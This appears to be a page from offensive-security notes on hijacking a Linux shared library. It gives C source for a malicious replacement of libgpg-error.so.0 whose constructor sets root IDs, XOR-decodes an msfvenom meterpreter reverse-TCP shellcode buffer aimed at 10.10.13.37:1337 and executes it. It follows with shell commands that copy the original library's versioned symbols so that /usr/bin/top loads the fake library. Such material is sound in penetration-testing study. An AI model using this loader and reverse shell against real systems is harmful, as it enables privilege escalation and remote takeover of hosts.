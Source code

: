 Code skeleton:

{% code title="fakelib.c" %}
```c
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

void hijack() {
	setuid(0);
	setgid(0);
	printf("Library hijacked!\n");
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	intptr_t pagesize = sysconf(_SC_PAGESIZE);
	mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC);
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}

Get all shared libraries loaded by target executable:

```
$ ldd /usr/bin/top
...
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0
```

We'll be targeting the `libgpg-error.so.0` library. Include defined symbols of the original library in our malicious library:

```
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> fakelib.c
```

Create a map file with version information of defined symbols:

```
$ echo 'GPG_ERROR_1.0 {' > gpg.map
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> gpg.map
$ echo '};' >> gpg.map
```

